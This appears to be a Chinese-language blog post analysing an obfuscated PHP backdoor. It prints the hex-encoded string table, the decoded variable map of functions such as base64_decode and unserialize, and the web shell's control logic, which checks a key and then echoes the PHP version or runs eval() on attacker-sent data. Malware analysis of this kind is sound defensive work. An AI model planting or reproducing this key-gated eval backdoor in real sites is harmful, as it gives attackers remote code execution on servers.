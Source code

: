 ```
${
"\\x47\\x4c\\x4fB\\x41\\x4c\\x53"}\['a904'\] = "\\x2f\\x25\\x32\\x54\\x75\\x3a\\x5e\\x36\\x31\\x48\\x21\\x5b\\x30\\x66\\x20\\x5f\\x56\\x5a\\x4d\\x23\\x3e\\x37\\x71\\x29\\x26\\x2c\\x68\\x7e\\x5c\\x9\\x64\\x69\\x6e\\x3c\\x6b\\x2b\\x61\\x2d\\x4a\\x47\\x42\\x7c\\xa\\x6a\\x7b\\x6f\\x52\\x27\\x4c\\x39\\x55\\x63\\x4b\\x7a\\x49\\x3f\\x5d\\x76\\x33\\x59\\x43\\x62\\x24\\x38\\x79\\x70\\x72\\x67\\x28\\x35\\x46\\x3d\\x7d\\x65\\x57\\x41\\x53\\x44\\x73\\x60\\x58\\x34\\x77\\x22\\x6c\\x6d\\x4e\\x45\\x4f\\x40\\x78\\x74\\x50\\xd\\x2a\\x2e\\x3b\\x51";
```

这个特性我查了半天资料，没有找到原因。  
下面：  

```
脚本所有已定义变量：
            \[a904\] => /%2Tu:^61H!\[0f \_VZM#>7q)&,h~\\        din chr
            \[z2d33f00\] => ord
            \[v618c417c\] => define
            \[hb67d10\] => strlen
            \[r018ad5\] => defined
            \[x8a4\] => ini\_set
            \[n2eb\] => serialize
            \[be64\] => phpversion
            \[f8d94b\] => unserialize
            \[kdd72d\] => base64\_decode
            \[k23b\] => set\_time\_limit
            \[s6f48\] => x184f5cc
            \[jf1ef40\] => e664fd
            \[c68905ea\] => Array
```

```
eval/\*r49557ec\*/($vv\['d'\]);
```

```
$vv = @unserialize(x184f5cc(base64\_decode($vv), $kk));
```

由于是 16 进制，在单引号包裹的情况下也可以使用 chr(hexdec(字符串)) 进行解码。

```
if (isset($vv\['a'.'k'\]) && $c77700426==$vv\['a'.'k'\]){
                if ($vv\['a'\] == 'i'){
                        $l71c40 = Array('p'.'v' => @phpversion(),'s'.'v' => '1'.'.'.'0'.'-'.'1',);
                        echo @serialize($l71c40);
                }
                elseif ($vv\['a'\] == 'e'){
                eval/\*r49557ec\*/($vv\['d'\]);
                }
                }
                exit();
```

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqeDqP3Ocd1EMFZfpjCB7XRbogsIP072ciaQWFyiaNIQSjsBvb2utYvVMCaG2FtnpaicNQsGR8iaFCiaVxw/640?wx_fmt=png)
